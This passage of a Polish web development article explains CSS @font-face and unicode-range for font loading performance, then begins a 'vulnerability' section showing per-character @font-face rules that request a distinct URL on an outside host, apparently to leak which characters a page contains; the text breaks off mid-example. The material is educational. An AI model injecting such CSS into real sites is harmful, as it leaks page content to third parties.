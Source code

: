 <h2>font-face i unicode-range</h2>

Na pewno niejednokrotnie dodawałaś/eś do swojej strony bądź aplikacji niestandardowego fonta, prawda? Więc bez wątpienia nieobcy jest Ci <code>font-face</code>. Oto przykład, w którym importuję fonta o nazwie Roboto z pliku roboto.woff2:

<pre class="language-css"><code>/* latin */
@font-face {
  font-family: 'Roboto';
  font-style: normal;
  font-weight: 400;
  src: url(https://fonts.gstatic.com/…/roboto.woff2) format('woff2');
  unicode-range: U+0000-00FF, U+0131, U+0152-0153, U+02C6, U+02DA, U+02DC, U+2000-206F, U+2074, U+20AC, U+2212, U+2215;
}</code></pre>

Ale czy wiesz do czego służy ostatnia właściwość <code>unicode-range</code>? Pozwala ona na zadeklarowanie <strong>jakie znaki znajdują się w konkretnym pliku z fontem</strong>. I tak, przykładowo, wyobraź sobie, że <code>roboto.woff2</code> zawiera alfabet łaciński, a <code>roboto-ext.woff2</code> zawiera literki z „ogonkami” typu ą ę ć ź itd. W takiej sytuacji tworzymy dwie definicje <code>font-face</code> z różnymi <code>unicode-range</code>:

<pre class="&quot;language-css"><code>/* latin */
@font-face {
  …
  src: url(roboto.woff2) format('woff2');
  unicode-range: U+0000-00FF, U+0131, U+0152-0153, U+02C6, U+02DA, U+02DC, U+2000-206F, U+2074, U+20AC, U+2212, U+2215;
}

/* latin-ext */
@font-face {
  …
  src: url(roboto2.woff2) format('woff2');
  unicode-range: U+0100-024F, U+1E00-1EFF, U+20A0-20AB, U+20AD-20CF, U+2C60-2C7F, U+A720-A7FF;
}</code></pre>

Jeśli kiedykolwiek używałaś/eś Google Fonts to (prawdopodobnie nawet o tym nie wiedząc) używałaś/eś <code>unicode-range</code>. Google dodaje to domyślnie do swoich fontów :)

<h3>Po co mi <code>unicode-range</code>?</h3>

Otóż w rezultacie przeglądarka rozpocznie pobieranie drugiego pliku (z „ogonkami”) tylko jeśli na stronie rzeczywiście zostały te ogonki użyte. Po co? Dla <strong>poprawy wydajności</strong>, zmniejszenia transferu i liczby zapytań. Ogólnie: Optymalizacja.

Realny przykład: Mamy stronę korporacji, która ma podstrony po arabsku, angielsku i polsku. Na podstronie arabskiej pobierze się tylko plik z arabskimi znaczkami, na angielskiej tylko łacińskie znaki, a na polskiej pobiorą się łacińskie oraz „ogonki”. Brzmi dobrze, prawda?

<h3>Podatność</h3>

A co się stanie jeśli zdefiniujemy po jednym <code>font-face</code> z osobnym URL fonta dla każdego znaku w alfabecie? Będzie to wyglądało jakoś tak:

<pre class="language-css"><code>@font-face{
    font-family: hackerfont;
    src: url(http://typeofweb.com/char/A);
    unicode-range:U+0041;
}
@font-face{
    font-family: hackerfont;
    src: url(http://typeofweb.com/char/B);
    unicode-range:U+0042;
}
@font-face{
    font-family: hackerfont;
    src: url(http://typeofweb.com/char/C);
    unicode-range:U+0043;